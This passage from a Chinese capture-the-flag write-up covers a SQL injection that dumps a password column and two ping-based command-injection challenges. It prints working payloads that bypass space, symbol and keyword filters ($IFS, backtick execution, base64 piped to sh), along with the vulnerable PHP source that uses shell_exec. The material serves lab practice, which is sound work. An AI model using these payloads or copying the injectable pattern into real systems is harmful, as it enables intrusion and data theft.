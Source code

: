 爆列名，列名为“id,username,password”

```
username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database()%23
```

最后在`l0ve1ysq1`这张表`password`这一列中找到flag

```
username=1' union select 1,2,group_concat(password) from l0ve1ysq1%23
```

# [ACTF2020 新生赛]Exec

是一个命令执行的环境，需要我们Ping命令再拼接其它命令，考察多命令执行，

于是`123;ls`，只发现一个`index.php`，想要的文件不在本层目录下，于是逐层向上寻找，发现`123;ls ../../../`已是根目录，根目录下存在`flag`文件，最终`paylaod：123;cat ../../../flag`

# [GXYCTF2019]Ping Ping Ping

页面显示为`/?ip=`，尝试`url/?ip=123`，回显为`PING 123 (0.0.0.123): 56 data bytes`，联系题目名称，这是shell中Ping命令的执行返回结果，所以想到执行多条命令，

`url/?ip=123;ls`，发现存在`flag.php`，于是输入`url/?ip=123;cat flag.php`，回显为”fxck your space!“，过滤了空格，尝试用`cat<flag.php`绕过空格，回显”1fxck your symbol!“，说明不能有符号字符，尝试`cat$IFSflag.php`，回显”fxck your flag!“，说明不能有`flag`这个词，输入`cat$IFS$1index.php`得到`index.php`源码，知道过滤了哪些东西，这里我用内联执行得到flag，需要查看源码，因为被注释，不显示在网页上

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){//以上有一部分没有回显在网页上，查看源码可以看到
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){//过滤了空格
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){//过滤了flag字符串
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}
?>
    
payload：http://9132489d-c67f-40ae-9c5f-08f47ccd3e19.node3.buuoj.cn/?ip=123;cat$IFS`ls`
其它的解法：
拼接绕过，/?ip=123;a=g;cat$IFS$1fla$a.php;
编码绕过，/?ip=123;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```
